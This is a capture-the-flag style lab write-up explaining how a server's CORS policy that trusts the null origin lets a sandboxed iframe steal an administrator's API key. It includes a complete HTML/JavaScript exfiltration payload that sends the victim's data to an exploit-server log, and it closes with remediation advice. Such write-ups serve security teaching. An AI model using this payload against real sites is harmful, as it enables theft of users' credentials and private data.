




# Lab: CORS vulnerability with trusted null origin

---

## 📌 Summary

The application is vulnerable to Cross-Origin Resource Sharing (CORS) because it blindly trusts the `null` origin and allows cross-origin requests with credentials (`Access-Control-Allow-Credentials: true`).

An attacker can exploit this by forcing the browser to generate an `Origin: null` header using a sandboxed `iframe`. This allows an untrusted third-party script to steal the administrator's sensitive API key.

---

## 🧾 Description

The core issue is that the backend server is configured to accept and reflect `Origin: null` in its response headers.

Browsers naturally assign a `null` origin to requests executing inside an HTML `iframe` that uses the `sandbox` attribute (without the `allow-same-origin` flag). When a victim visits an attacker-controlled site containing this iframe, the script sends an authenticated request to `/accountDetails`.

Because the server explicitly trusts `null`, it returns the victim's data, which the script captures and logs on the exploit server.

---

## 🔁 Steps to Reproduce

### 1. Log In to Your Account

Log into the application using the given credentials (`wiener:peter`). This sets a valid session cookie in your browser.

---

### 2. Intercept the Private Data Request

Go to your account page. Use Burp Suite to capture the background request going to `/accountDetails` (this is the endpoint holding the API key) and send it to Burp Repeater.

---

### 3. Test if the Server Trusts "null"

In Burp Repeater, manually add the header:

```http
Origin: null
````

and send the request.

**What happens:**
The server responds with:

```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Behind the scenes:**
This tells us the server has a critical flaw—it blindly trusts the `null` identity and is willing to share private logged-in data with it.

---

### 4. Setup the Exploit Payload

Go to your Exploit Server and paste this specific script into the Body section (make sure to update the URLs with your actual lab IDs):

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>></iframe>
```

### How this Payload Works Behind the Scenes:

#### The `<iframe>` Trick

By using a sandboxed iframe without the `allow-same-origin` flag, we force the victim's browser to strip away the actual website's domain and treat this frame as an anonymous `null` origin.

#### The Dynamic Request

The script inside the frame reaches out to the vulnerable `/accountDetails` URL. Because `req.withCredentials = true` is set, the browser automatically attaches the victim's live login cookies.

#### The Leak

The vulnerable server sees the request coming from `Origin: null`, remembers its loose policy, and safely passes back the user's private details. The script immediately grabs that response data and sends it as a URL parameter (`?key=...`) straight to your exploit server's logs.

---

### 5. Deliver the Attack

Click **Deliver exploit to victim**. This forces the simulated administrator to visit your page, triggering the hidden script in their browser.

---

### 6. Extract the Stolen Key

Click **Access log** on your exploit server. Look for the recent web requests hitting your log.

You will see the raw profile data of the administrator leaked right inside the URL. Simply copy the API key out of that log and submit it to solve the lab.

---

## 📸 Proof of Concept (PoC)


### 1. Setting up the Sandboxed Iframe Script


### 2. Viewing the Exfiltrated Administrator API Key in the Logs


### 3. Submitting the Key to Complete the Lab


---

## 💥 Impact

* **Data Leakage:** Confidential user details, tokens, and keys can be extracted by any third-party domain.
* **SOP Bypass:** It completely eliminates Same-Origin Policy protections since any client can easily generate a `null` origin request.
* **Account Takeover:** Stolen API tokens give attackers persistent access to user accounts.

---

## 🛠️ Remediation

* **Do Not Trust Null:** Never configure your application to allow `Access-Control-Allow-Origin: null`, especially when handling user sessions.
* **Use Domain Allowlisting:** Explicitly check the `Origin` header against a strict list of trusted, fully-qualified domain names.
* **Handle Public Content Safely:** If data must be public, use `Access-Control-Allow-Origin: *` but completely disable credential sharing (`Access-Control-Allow-Credentials: false`).
